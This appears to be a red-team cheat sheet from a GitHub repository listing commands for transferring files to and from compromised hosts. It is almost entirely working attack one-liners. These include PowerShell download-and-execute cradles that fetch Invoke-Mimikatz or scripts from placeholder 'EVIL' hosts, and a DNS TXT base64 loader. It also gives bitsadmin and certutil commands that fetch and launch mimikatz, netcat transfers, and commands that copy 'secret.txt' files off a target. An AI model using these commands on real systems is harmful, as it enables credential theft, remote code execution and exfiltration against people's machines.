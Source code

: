 # Ultimate File Transfer List

## powershell.exe

### wget.ps1
```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://10.10.10.10/mimikatz.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

### powershell download proxy auth
```
$Client = New-Object -TypeName System.Net.WebClient
$Client.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
```

### powershell 4.0 & 5.0 Invoke-WebRequest (works in constrained language mode)
```
Invoke-WebRequest "http://10.10.10.10/mimikatz.exe" -OutFile "C:\Users\Public\mimikatz.exe"
```

### powershell 3.0+ download and execute (bypass IE firstrun check)
```
IEX (iwr 'https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1' -UseBasicParsing)
```

### powershell (any version)
```
powershell "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')"
```
```
(New-Object System.Net.WebClient).DownloadFile("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1", "C:\Users\Public\Invoke-Mimikatz.ps1")
```

### hidden IE com object
```
$ie=New-Object -comobject InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://EVIL/evil.ps1');start-sleep -s 5;$r=$ie.Document.body.innerHTML;$ie.quit();IEX $r
```

### Msxml2.XMLHTTP COM object
```
$h=New-Object -ComObject Msxml2.XMLHTTP;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### WinHttp COM object
```
[System.Net.WebRequest]::DefaultWebProxy
[System.Net.CredentialCache]::DefaultNetworkCredentials
$h=new-object -com WinHttp.WinHttpRequest.5.1;$h.open('GET','http://EVIL/evil.ps1',$false);$h.send();iex $h.responseText
```

### bitstransfer
```
Import-Module bitstransfer;Start-BitsTransfer 'http://EVIL/evil.ps1' $env:temp\t;$r=gc $env:temp\t;rm $env:temp\t; iex $r
```

// DNS TXT approach from PowerBreach (https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerBreach/PowerBreach.ps1)
//   code to execute needs to be a base64 encoded string stored in a TXT record
```
IEX ([System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String(((nslookup -querytype=txt "SERVER" | Select -Pattern '"*"') -split '"'[0]))))
```


### from @subtee
```
<#
<?xml version="1.0"?>
<command>
   <a>
      <execute>Get-Process</execute>
   </a>
  </command>
#>
$a = New-Object System.Xml.XmlDocument
$a.Load("https://gist.githubusercontent.com/subTee/47f16d60efc9f7cfefd62fb7a712ec8d/raw/1ffde429dc4a05f7bc7ffff32017a3133634bc36/gistfile1.txt")
$a.command.a.execute | iex
```

References:

https://gist.github.com/HarmJ0y/bb48307ffa663256e239


## bitsadmin.exe
```
cmd.exe /c "bitsadmin.exe /transfer downld_job /download /priority high http://www.trustedsite.com C:\Temp\mimikatz.exe & start C:\Temp\mimikatz.exe"
```
References: 

https://www.greyhathacker.net/?tag=download-and-execute


## ssh / pscp.exe
```
pscp.exe C:\Users\Public\info.txt phineas@target:/tmp/info.txt
pscp.exe phineas@target:/home/phineas/secret.txt C:\Users\Public\secret.txt
```

## certutil.exe
```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1
```
References:

https://twitter.com/subtee/status/888122309852016641?lang=en


## certutil.exe / base64
```
certutil.exe -encode mimikatz.exe mimikatz.txt
certutil.exe -decode mimikatz.txt mimikatz.exe

cat binary.exe | base64 -w 0
echo {base64_data} | base64 -d > binary.exe
```

## print.exe
```
C:\Windows\System32\print.exe /D c:\TEMP\ADExplorer.exe \\live.sysinternals.com\tools\ADExplorer.exe
```
References:

https://twitter.com/Oddvarmoe/status/984749424395112448


## makecab.exe
```
C:\Windows\System32\makecab.exe \\10.10.10.10\share\nmap.zip C:\Users\Public\nmap.cab
```

## esentutl.exe
```
C:\Windows\System32\esentutl.exe /y "\\10.10.10.10\share\mimikatz_trunk.zip" /d"C:\Users\Public\mimikatz_trunk.zip" /o
```

## extrac32.exe
```
C:\Windows\System32\extrac32.exe /Y /C \\10.10.10.10\share\secret.txt C:\Users\Public\secret.txt
```

## netcat file
```
nc -nlvp 8000 > mimi_incoming.exe
nc -nv 10.10.10.10 8000 </tmp/mimikatz.exe
```

## Web Browser / Server
```
python -m SimpleHTTPServer 80
python3 -m http.server
ruby -run -ehttpd . -p80
php -S 0.0.0.0:80
socat TCP-LISTEN:80,reuseaddr,fork
```

## wget
```
wget http://10.10.10.10:80/info.txt -O /tmp/info.txt
```

## curl
```
curl -o /tmp/info.txt http://10.10.10.10:80/info.txt
```

## rdesktop
```
rdesktop 10.10.10.10 -r disk:linux='/home/user/rdesktop/files'
```



